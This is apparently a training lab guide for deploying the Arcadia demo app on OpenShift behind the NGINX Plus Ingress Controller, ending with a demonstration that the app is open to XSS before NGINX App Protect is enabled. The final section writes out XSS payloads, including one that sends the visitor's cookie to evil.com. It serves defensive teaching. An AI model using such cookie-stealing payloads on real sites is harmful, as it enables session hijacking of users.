 Access Arcadia app without NGINX App Protect
------------------------------------------------


Publish Arcadia app with NGINX Plus Ingress Controller
#######################################################

.. note::  The Arcadia Financial application is the same application we introduced in Module 1, but a different version with enhanced features which will be used for our security lab exercises.

1. Deploy the Arcadia Application into Kubernetes

   The Arcadia Application deployment is a single manifest file containing the resources need to build.

   - Kubernetes deployment for the four docker containers
   - Kubernetes services for the four docker containers

   Get the yaml file. In the terminal window, copy the below text and paste+enter:

   .. code-block:: bash

    wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module4/templates/arcadia-all.yaml

   Apply the updated yaml file. In the terminal window, copy the below text and paste+enter:

   .. code-block:: bash

      oc apply -f ./arcadia-all.yaml


2. Arcadia application Kubernetes objects

   In the terminal window, copy the below text and paste+enter:

   .. code-block:: bash

      oc get services

   Example:

3.  Export the NGINX Ingress Controller services

    Interacting with the NGINX Ingress Controller is more comfortable with exporting the service External IPs into system variables. This allows for templating to take place when we expose our applications.

    In the terminal window copy the below text and paste+enter:

    .. code-block:: bash

       export dashboard_nginx_ingress=$(oc get svc dashboard-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")

    .. code-block:: bash

       export nginx_ingress=$(oc get svc my-nginx-ingress-controller-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")


4. Publish Arcadia app with NGINX Plus Ingress Controller

   Re-create NGINX Ingress Controller with Basic HTTP:

   In the terminal window, copy the below text and paste+enter:

   .. literalinclude :: templates/ingress-arcadia.yml
      :language: yaml



Access the Arcadia application
#################################
launch a Firefox browser and click on the Arcaida Finance bookmark.

You should be presented with the Main page, click on Login and enter the credentials as below.

.. code-block:: 

    Username: matt
    Password: ilovef5

When you click on Log me in, you should be presented with Arcadia application that consist of four microservices


.. image:: ./pictures/image10.png
   :align: center

Congratulations!

You have now successfully deployed the application in K8s cluster and published it externally using the NGINX Plus Ingress controller


Is our application protected against Layer 7 attacks?
######################################################
 
We deployed and published the application, but is our application protected against web application attacks? Let's find out by executing a simple XSS attack. XSS is one of the well know OWASP top 10 attack.

- Launch the Firefox browser and execute a XSS attack by appending the ``?a=<script>`` to the end of application URL, you should see the request is allowed.

.. image:: ./pictures/image11.png
   :align: center

- Execute another attack by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, this request is also allowed and a bad actor has successfully stealed your document cookie by luring you to his website.

.. image:: ./pictures/image12.png
   :align: center

Now that we know our application is vulnerable to Layer 7 attacks, we will address this in this Lab and protect our application using NGINX App Protect (NAP)

